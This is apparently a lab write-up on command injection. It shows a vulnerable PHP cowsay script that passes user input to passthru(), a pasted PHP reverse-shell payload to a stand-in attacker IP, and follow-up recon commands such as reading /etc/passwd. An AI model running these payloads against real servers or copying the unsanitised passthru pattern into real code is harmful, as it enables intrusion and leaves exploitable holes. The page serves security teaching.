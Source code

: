 Command injection occurs when web applications execute system commands using unsanitized user input, enabling attackers to run arbitrary OS commands.

  The provided example involves a PHP script using the passthru() function to run the cowsay command with user-controlled parameters, illustrating a security flaw.

Attackers can exploit inline bash commands $(your_command) within input fields to execute malicious commands on the server.

Common commands used in exploits include whoami, id, ifconfig/ip addr, uname -a, and ps -ef, which help attackers gather system information.

Successful exploitation allows attackers to enumerate files, identify users, and gain information about the server environment, potentially escalating their access.

Proper input validation, parameter sanitization, and avoiding direct command execution with user input are critical to prevent command injection.

The scenario encourages exploiting the vulnerability to answer several security questions related to system configuration, user accounts, and installed software.
example of the code is

```bash
<?php
    if (isset($_GET["mooing"])) {
        $mooing = $_GET["mooing"];
        $cow = 'default';

        if(isset($_GET["cow"]))
            $cow = $_GET["cow"];
        
        passthru("perl /usr/bin/cowsay -f $cow $mooing");
    }
?>
```
here are some other commands you may want to try to test for command injection on the web application:

```bash
whoami
id
ifconfig/ip addr
uname -a
ps -ef
```
EXPLOITATION TIME:

First is to create a reverse shell on the terminal for command execution in that case I shall use a cheat sheet i.e [cheat-sheet](swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/#ruby)

where we paste this ```$(php -r '$sock=fsockopen("attacker_ip",port_NO);exec("/bin/sh -i <&3 >&3 2>&3");')``` ,also this command may work ```php -r '$sock=fsockopen("attacker_ip",port_NO);exec("/bin/sh -i <&3 >&3 2>&3");'```

on the command prompt on the web while we listen using nc port listener in order to access the shell.

After having an interactive shell we can then run several commands that is:

```bash
whoami  # shows the user

ls  #shows the available files and directories on that user

cat /etc/passwd  # shows the available users and there privileges

cat /etc/os-release  # shows the os version running on the web server
```






















































